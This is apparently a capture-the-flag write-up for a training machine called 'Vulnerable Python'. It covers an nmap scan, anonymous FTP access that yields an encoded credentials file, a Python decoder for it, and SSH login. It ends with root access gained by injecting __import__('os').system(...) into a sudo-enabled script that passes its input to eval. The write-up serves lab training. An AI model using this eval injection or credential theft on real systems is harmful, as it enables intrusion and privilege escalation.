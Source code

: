 # Vulnerable Python

## Difficulity: Easy

First i Try using the nmap, nmap command `nmap -sC -sV 10.10.120.24`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 03:19 EDT
Nmap scan report for 10.10.120.24
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:1d:59:19:05:a2:6e:b6:bf:a2:bf:ab:76:1d:a9:94 (RSA)
|   256 55:0d:da:51:18:5f:65:8b:15:51:8f:98:c9:55:ea:5c (ECDSA)
|_  256 97:26:d8:62:8a:8d:42:90:bc:7e:a4:47:5e:46:57:24 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.72 seconds

```

As we can see there is ftp port is open so we can try anonymous access. 

```
└─$ ftp 10.10.120.24                                                                        
Connected to 10.10.120.24.
220 (vsFTPd 3.0.5)
Name (10.10.120.24:kali): anonymous

331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||64277|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Mar 18 05:46 .
drwxr-xr-x    2 0        0            4096 Mar 18 05:46 ..
-rw-r--r--    1 0        0             157 Mar 18 05:45 creds.txt
226 Directory send OK.
ftp> get creds.txt
local: creds.txt remote: creds.txt
229 Entering Extended Passive Mode (|||55681|)
150 Opening BINARY mode data connection for creds.txt (157 bytes).
100% |***********************************************************************|   157        0.99 MiB/s    00:00 ETA
226 Transfer complete.
157 bytes received in 00:00 (0.71 KiB/s)
ftp> exit
221 Goodbye.

```

We got access and there is this file creds.txt when i open it, it gives me this `20648410402654810535311458261854615084277787295823458: 30190467963622096773706991354215451982626599082460551705066094343096245376709266448551663746002727473`.

It is some type of encoded string but as we can see it is an python lab so i try some crypto method and i use this code to decrypt the encoded strings.

```
#!/usr/bin/env python3

from Crypto.Util.number import bytes_to_long, long_to_bytes
import binascii


def username():
	username = 20648410402654810535311458261854615084277787295823458


	crypto_decode = long_to_bytes(username)

	decoded_string = crypto_decode.decode('utf-8')

	hex_decode = bytes.fromhex(decoded_string).decode('utf-8')
	print(f"Username: {hex_decode}")


def password():
	password = 30190467963622096773706991354215451982626599082460551705066094343096245376709266448551663746002727473


	crypto_decode = long_to_bytes(password)

	decoded_string = crypto_decode.decode('utf-8')

	hex_decode = bytes.fromhex(decoded_string).decode('utf-8')
	print(f"Password: {hex_decode}")


username()
password()
``` 


And i got `python_geek: v3ry_s3cur3_p4ssw0rd!` with this i try to ssh into the box. And i got logged in as python_geek.

In the home folder of python_geek there was two files first `users.txt, calculator.py`  when i cat calculator.py it gives me the bellow output.

```
python_geek@vulnerablepython:~$ cat calculator.py
print("I am smarter than you i can solve any equation in seconds")

try:
    user_input = input("Try me give me any equation: ")

    answer = eval(user_input)

    print(answer)

except:
    print("Give me equation not something else")


```

This code only calculate numbers usign eval function.

Now i run sudo -l and i saw that i can run calculator.py as root 

```
python_geek@vulnerablepython:~$ sudo -l
Matching Defaults entries for python_geek on vulnerablepython:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User python_geek may run the following commands on vulnerablepython:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /home/python_geek/calculator.py

```

Now as we saw in calculator.py it uses eval to calculate so i search online eval exploit and i got that it can run arbitrary code so i use this command `__import__('os').system('whoami')`.

```
python_geek@vulnerablepython:~$ sudo /usr/bin/python3 /home/python_geek/calculator.py 
I am smarter than you i can solve any equation in seconds
Try me give me any equation: __import__('os').system('whoami')
root
0
```

and by using this i cat the root.txt

```
python_geek@vulnerablepython:~$ sudo /usr/bin/python3 /home/python_geek/calculator.py 
I am smarter than you i can solve any equation in seconds
Try me give me any equation: __import__('os').system('cat /root/root.txt')
THM{xxx_xxx_xxx_xxxxxx_xxx}
0

```